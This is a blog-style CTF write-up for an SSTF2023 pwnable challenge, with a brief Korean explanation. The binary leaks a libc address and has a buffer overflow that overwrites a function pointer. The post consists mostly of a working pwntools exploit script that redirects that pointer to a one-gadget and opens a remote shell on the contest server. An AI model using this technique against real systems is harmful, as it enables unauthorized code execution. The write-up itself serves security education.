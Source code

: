 ```yaml
---
layout: post
date: 2023-11-24
title: "SSTF2023 pwnable write-up"
tags: [pwnable, ]
categories: [CTF, SSTF2023, ]
---
```




## **2 Outs in the Ninth Inning**


libc 함수의 주소를 출력해주며, 이후에 fgets를 통해 입력을 받을 때 버퍼 오버플로우가 발생하여 함수 포인터를 덮을 수 있다.


이를 one gadget 위치로 변조하여 쉘을 획득하였다.



{% raw %}
```sql
from pwn import *
import ctypes
#lscontext.log_level = 'debug'

p = remote('2outs.sstf.site', 1337)
# libc = ctypes.CDLL("./libc.so")

# p = process('./9end2outs')
e = ELF('./9end2outs')
libc = e.libc
clibc = ctypes.CDLL(e.libc.path)

def s(x): return p.send(x)
def sl(x): return p.sendline(x)
def sa(x, y): return p.sendafter(x, y)
def sla(x, y): return p.sendlineafter(x, y)
def ru(x): return p.recvuntil(x)
def rl(): return p.recvline()
def ia(): return p.interactive()

pitches = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
sla('The 1st chacne', 'puts')
ru('Libc function \'puts\' is at ')
puts = int(ru('\n')[:-2],16)
success('puts: ' + hex(puts))

sla('The 2nd chacne', 'puts')
pause()

libc_base = puts - libc.sym['puts']
system = libc_base + 0xebcf8

# sla('Can you guess the pitcher\'s selection', (pitches[libc.rand() % 26]) * 16)
sla('Can you guess the pitcher\'s selection', p64(system) * 100)

ia()
```
{% endraw %}
